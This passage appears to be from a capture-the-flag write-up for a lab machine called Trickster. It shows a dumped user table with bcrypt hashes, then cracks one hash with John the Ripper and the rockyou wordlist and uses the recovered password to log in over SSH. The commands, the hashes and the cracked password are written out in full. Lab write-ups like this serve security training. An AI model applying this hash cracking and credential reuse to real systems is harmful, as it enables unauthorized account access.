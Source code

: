 ````bash
|           1 |          1 |       1 | Store    | Trickster | admin@trickster.htb | $2y$10$P8wO3jruKKpvKRgWP6o7o.rojbDoABG9StPUt0dR7LIeK26RdlB/C | 2024-05-25 13:10:20 | 2024-04-25      | 2024-05-25    | 0000-00-00         | 0000-00-00       |                    1 | NULL                 | NULL     | default  | theme.css |           1 |        0 |       1 |      1 |  NULL |             5 |                        0 |                0 | 2025-01-31           | NULL                 | 0000-00-00 00:00:00     |                    0 |
|           2 |          2 |       0 | james    | james     | james@trickster.htb | $2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/OzGw9UHi4UnlK6yG5LyunCmm | 2024-09-09 13:22:42 | NULL            | NULL          | NULL               | NULL             |                    1 | NULL                 | NULL     | NULL     | NULL      |           0 |        0 |       1 |      0 |  NULL |             0 |                        0 |                0 | NULL                 | NULL                 | NULL                    |                    0 |
+-------------+------------+---------+----------+-----------+---------------------+--------------------------------------------------------------+---------------------+-----------------+---------------+--------------------+------------------+----------------------+----------------------+----------+----------+-----------+-------------+----------+---------+--------+-------+---------------+--------------------------+------------------+----------------------+----------------------+-------------------------+----------------------
````

In the database, we found several encrypted credentials. I'll start with James' hash, as he is also a user on the machine we are currently on. Given the characteristics of the hash (`$2a$`), we can infer that it uses bcrypt. Therefore, we save it to a file and attempt to crack it using John the Ripper.

````bash
❯ echo '$2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/OzGw9UHi4UnlK6yG5LyunCmm' > hash.txt

❯ john --format=bcrypt hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 16 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
alwaysandforever (?)     
1g 0:00:00:04 DONE (2025-01-31 12:47) 0.2136g/s 7915p/s 7915c/s 7915C/s bandit2..alkaline
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
````

### Login as james
---
````bash
❯ ssh james@10.10.11.34
The authenticity of host '10.10.11.34 (10.10.11.34)' can't be established.
ED25519 key fingerprint is SHA256:SZyh4Oq8EYrDd5T2R0ThbtNWVAlQWg+Gp7XwsR6zq7o.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.34' (ED25519) to the list of known hosts.
james@10.10.11.34's password: 
Last login: Thu Sep 26 11:13:01 2024 from 10.10.14.41
james@trickster:~$ cd /home/james
james@trickster:~$ ls  
user.txt
james@trickster:~$ 
````
